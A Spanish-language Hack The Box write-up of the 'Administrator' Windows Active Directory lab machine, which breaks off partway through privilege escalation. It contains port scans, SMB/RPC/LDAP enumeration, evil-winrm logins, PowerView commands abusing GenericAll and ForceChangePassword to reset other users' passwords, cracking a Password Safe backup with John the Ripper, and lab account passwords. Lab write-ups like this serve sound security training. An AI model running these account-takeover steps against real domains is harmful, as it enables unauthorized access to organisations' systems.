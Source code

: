 ```yaml
---
description: >-
  Writeup de la máquina de dificultad media Administrator de la página https://hackthebox.eu
title: Hack The Box - Administrator | (Difficulty Medium) - Windows
date: 2025-01-29
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, active directory, medium, writeup, redteam, pentesting]
image_post: true
image: https://github.com/user-attachments/assets/9d60c834-3318-4bfd-910e-a6c5febfcba0
---
```


## Useful Skills

* Enumeración DNS (dig)
* RPC Enumeration (rpcclient)
* SMB Enumeration (netexec)
* LDAP Enumeration (netexec + ldapsearch)
* BloodHound analysis
* Abusing GenericAll permission
* Abusing Force Change Password permission
* Cracking password Backup.psafe3 (pwsafe2john)
* Abusing GenericWrite Permission
* 

> En este escenario, comenzaremos con las siguientes credenciales (usuario: olivia, contraseña: ichliebedich)
{: .prompt-info }

## Enumeration

### TCP Scan

 ```bash
rustscan -a 10.10.11.42 --ulimit 5000 -g
10.10.11.42 -> [21,53,88,135,139,389,445,464,593,9389,3268,3269,47001,49664,49665,49666,49667,49668,60306,60293,60286,60281]
```

```bash
nmap -p21,53,88,135,139,389,445,464,593,9389,3268,3269,47001,49664,49665,49666,49667,49668,60306,60293,60286,60281 -sCV 10.10.11.42 -oN tcpScan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 15:37 CET
Nmap scan report for 10.10.11.42
Host is up (0.038s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-29 21:37:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
60281/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
60286/tcp open  msrpc         Microsoft Windows RPC
60293/tcp open  msrpc         Microsoft Windows RPC
60306/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m58s
| smb2-time: 
|   date: 2025-01-29T21:38:33
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.83 seconds
```

### UDP Scan

 ```bash
nmap -sU --top-ports 1500 --min-rate 5000 -n -Pn 10.10.11.42 -oN udpScan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 15:39 CET
Nmap scan report for 10.10.11.42
Host is up (0.035s latency).
Not shown: 1496 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
53/udp    open   domain
88/udp    open   kerberos-sec
123/udp   open   ntp
21710/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.82 seconds
```

> Esta máquina sigue activa en HackTheBox. Una vez que se retire, este artículo se publicará para acceso público, de acuerdo con la política de HackTheBox sobre la publicación de contenido de su plataforma.
{: .prompt-danger }
<!--
> Hay que añadir el dominio administrator.htb en el archivo de configuración /etc/hosts para que se pueda resolver el nombre de dominio a la dirección IP 10.10.11.42
{: .prompt-tip }

### DNS Enumeration

Intento obtener información adicional sobre el dominio a través de consultas DNS con dig, donde intento obtener los registros NS, MX, CNAME entre otros, posteriormente, trato de realizar una transferencia de zona, pero esta resulta fallida.

```bash
dig administrator.htb@10.10.11.42 axfr

; <<>> DiG 9.18.28-1~deb12u2-Debian <<>> administrator.htb@10.10.11.42 axfr
;; global options: +cmd
; Transfer failed.
```

### SMB Enumeration

Utilizo NetExec para realizar un escaneo de SMB y obtener información clave como el sistema operativo, nombre del servidor, dominio, si la firma smb está habilita y si la versión antigua SMBv1 está activada o desactivada.

```bash
netexec smb 10.10.11.42
SMB  10.10.11.42 445  DC  [*] Windows Server 2022 Build 20348 x64 (name:DC)(domain:administrator.htb)  (signing:True)  (SMBv1:False)
```

Utilizo NetExec para enumerar los recursos compartidos del sistema a través del protocolo SMB, ejecutando el comando con el usuario Olivia y la contraseña ichliebedich y así poder identificar qué recursos pueden ser accedidos. No obtengo nada interesante.

```bash
netexec smb 10.10.11.42 -u 'olivia' -p 'ichliebedich' --shares
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\olivia:ichliebedich 
SMB         10.10.11.42     445    DC               [*] Enumerated shares
SMB         10.10.11.42     445    DC               Share           Permissions     Remark
SMB         10.10.11.42     445    DC               -----           -----------     ------
SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.42     445    DC               C$                              Default share
SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share 
```

### RPC Enumeration

Haciendo uso de las credenciales válidas, intento enumerar los usuarios usando la herramienta rpcclient. Obtengo con éxito los nombres de usuarios del sistema.

```bash
rpcclient -U administrator.htb/olivia%ichliebedich 10.10.11.42 -c enumdomusers | grep -oP '\[.*?\]' | tr -d '[]' | grep -v 0x
Administrator
Guest
krbtgt
olivia
michael
benjamin
emily
ethan
alexander
emma
```

> Sabiendo los usuarios del sistema, una de las posibles vías de ataque a considerar sería el AS-REP Roasting
{: .prompt-tip }

### LDAP Enumeration

Utilizo NetExec para verificar si las credenciales (olivia:ichliebedich) son válidas para conectarme al servicio LDAP.

```bash
netexec ldap 10.10.11.42 -u 'olivia' -p 'ichliebedich'
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [+] administrator.htb\olivia:ichliebedich 
```

Haciendo uso de las credenciales válidas (olivia:ichliebedich), intento enumerar los usuarios del sistema utilizando la herramienta ldapsearch, este método es una alternativa a la enumeración de usuarios mediante rpcclient.

```bash
ldapsearch "objectclass=user" -x -H ldap://10.10.11.42 -b "dc=administrator,dc=htb" -D "olivia@administrator.htb" -w "ichliebedich" | grep sAMAccountName | cut -d : -f 2
 Administrator
 Guest
 DC$
 krbtgt
 olivia
 michael
 benjamin
 emily
 ethan
 alexander
 emma
```

## Gain access

Haciendo uso de las credenciales válidas (olivia:ichliebedich), intento verificar con NetExec si puedo acceder al sistema mediante el servicio WinRM. Obtengo un (Pwned!) lo que indica que las credenciales proporcionadas son válidas

```bash
netexec winrm 10.10.11.42 -u 'olivia' -p 'ichliebedich'
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\olivia:ichliebedich (Pwn3d!)
```

Accedo al sistema con evil-winrm como el usuario olivia

```bash
evil-winrm -i 10.10.11.42 -u olivia -p ichliebedich
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\olivia\Documents>
```

## Privilege escalation

Utilizo BloodHound para identificar puntos débiles en la configuración de Active Directory que me puedan permitir escalar mis privilegios

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -c All -d administrator.htb -ns 10.10.11.42
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 07S
```

```bash
neo4j console
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
2025-01-29 16:57:42.929+0000 INFO  Starting...
2025-01-29 16:57:43.272+0000 INFO  This instance is ServerId{c79aff68} (c79aff68-d2d1-422e-b680-b0424c4ea5de)
2025-01-29 16:57:44.300+0000 INFO  ======== Neo4j 4.4.16 ========
2025-01-29 16:57:45.316+0000 INFO  Performing postInitialization step for component 'security-users' with version 3 and status CURRENT
2025-01-29 16:57:45.316+0000 INFO  Updating the initial password in component 'security-users'
2025-01-29 16:57:45.520+0000 INFO  Bolt enabled on localhost:7687.
2025-01-29 16:57:46.208+0000 INFO  Remote interface available at http://localhost:7474/
2025-01-29 16:57:46.212+0000 INFO  id: DFBA69E397E88AF1BC8E85BBEEFD400D7D976EDAECF75F3A77F903544778EE72
2025-01-29 16:57:46.213+0000 INFO  name: system
2025-01-29 16:57:46.213+0000 INFO  creationDate: 2025-01-29T16:57:12.71Z
2025-01-29 16:57:46.213+0000 INFO  Started.
```

En BloodHound observo que Olivia tiene permisos GenericAll sobre Michael, este permiso permite un control total sobre el objeto, por ejemplo cambiar la contraseña del usuario.

![imagen](https://github.com/user-attachments/assets/1e4b0ae8-f075-4a55-b24c-daa986bb57ed)

Descargo e importo PowerView.ps1

```bash
*Evil-WinRM* PS C:\Users\olivia\Documents\BloodHound> upload PowerView.ps1
                                        
Info: Uploading /home/juanca/Desktop/juanca/HTB/Administrator/content/PowerView.ps1 to C:\Users\olivia\Documents\BloodHound\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

```bash
*Evil-WinRM* PS C:\Users\olivia\Documents\BloodHound> Import-Module .\PowerView.ps1
```

Defino la contraseña que voy a asignar el usuario michael

```bash
*Evil-WinRM* PS C:\Users\olivia\Documents\BloodHound> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

Asigno la contraseña definida $SecPassword al usuario michael

```bash
*Evil-WinRM* PS C:\Users\olivia\Documents\BloodHound> Set-DomainUserPassword -Identity michael -AccountPassword $SecPassword
```

Inicio como el usuario michael con la contraseña que he establecido en este caso Password123!

```bash
evil-winrm -i 10.10.11.42 -u michael -p 'Password123!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\michael\Documents>
```

En BloodHound observo que Michael tiene el permiso Force Change Password sobre Michael, este permiso puede forzar que al otro usuario a cambiar su contraseña en el próximo inicio de sesión

![imagen](https://github.com/user-attachments/assets/7be164a7-ce08-4c35-b107-e9f26a844716)

Descargo e importo PowerView.ps1

```bash
*Evil-WinRM* PS C:\Users\michael\Documents> upload PowerView.ps1
                                        
Info: Uploading /home/juanca/Desktop/juanca/HTB/Administrator/content/PowerView.ps1 to C:\Users\michael\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

```bash
*Evil-WinRM* PS C:\Users\michael\Documents> Import-Module .\PowerView.ps1
```

Defino la contraseña que voy a asignar el usuario benjamin

```bash
*Evil-WinRM* PS C:\Users\michael\Documents> $Password = ConvertTo-SecureString 'Password1234!' -AsPlainText -Force```
```

Asigno la contraseña definida $SecPassword al usuario benjamin

```bash
*Evil-WinRM* PS C:\Users\michael\Documents> Set-DomainUserPassword -Identity benjamin -AccountPassword $Password
```

Observo que al intentar acceder por winrm con el usuario Benjamin no puedo, por lo que accedo por FTP con las credenciales (Benjamin:Password1234!) y observo un archivo Backup.psafe3 el cual traigo a mi máquina local.

```bash
ftp administrator.htb
Connected to administrator.htb.
220 Microsoft FTP Service
Name (administrator.htb:juanca): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49980|)
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||49982|)
125 Data connection already open; Transfer starting.
100% |***************************************|   952        7.18 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (7.17 KiB/s)
```

El archivo Backup.psafe3 pertenece al gestor de contraseñas Password Safe, es un gestor de contraseñas de código abierto para el sistema operativo Windows que utiliza un cifrado AES a 256 bits.

* [Download Password Safe](https://sourceforge.net/projects/passwordsafe/)

Obtengo el hash del archivo Backup.psafe3 con pwsafe2john

```bash
pwsafe2john Backup.psafe3 > hash
```

Utilizo John The Ripper para intentar crackear la contraseña de Backup.psafe3, consigo obtener las contraseña la cual es tekieromucho

```bash
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)     
1g 0:00:00:00 DONE (2025-01-29 19:34) 3.225g/s 26425p/s 26425c/s 26425C/s newzealand..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Abro el archivo Backup.psafe3 con el gestor de contraseñas Password Safe e introduzco la contraseña tekieromucho

![imagen](https://github.com/user-attachments/assets/7f9bdd6d-1259-41ad-97ad-1753a6ba1a75)

![imagen](https://github.com/user-attachments/assets/733fd421-aa41-4e64-b00e-8f6b38b2aa94)

```
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

Accedo como emily al sistma con evil-winrm

```bash
evil-winrm -i 10.10.11.42 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily\Documents>
```

En BloodHound observo que Emily tiene el permiso GenericWrite sobre Ethan, este permiso puede ser explotado para actualizar atributos como permisos de cuenta, o incluso ejecutar la escalada de privilegios modificando scripts de inicio de sesión o directores de servicio.

![imagen](https://github.com/user-attachments/assets/850405bf-dddb-4e96-9a09-0055958aec32)

Descargo e importo PowerView.ps1

```bash
*Evil-WinRM* PS C:\Users\emily\Documents> upload /home/juanca/Desktop/juanca/HTB/Administrator/content/PowerView.ps1
                                        
Info: Uploading /home/juanca/Desktop/juanca/HTB/Administrator/content/PowerView.ps1 to C:\Users\emily\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

```bash
*Evil-WinRM* PS C:\Users\emily\Documents> Import-Module .\PowerView.ps1
```

```bash
*Evil-WinRM* PS C:\Users\emily\Documents> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

```bash
*Evil-WinRM* PS C:\Users\emily\Documents> Set-DomainObject -Credential $Cred -Identity ethan -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```

```bash

```
-->
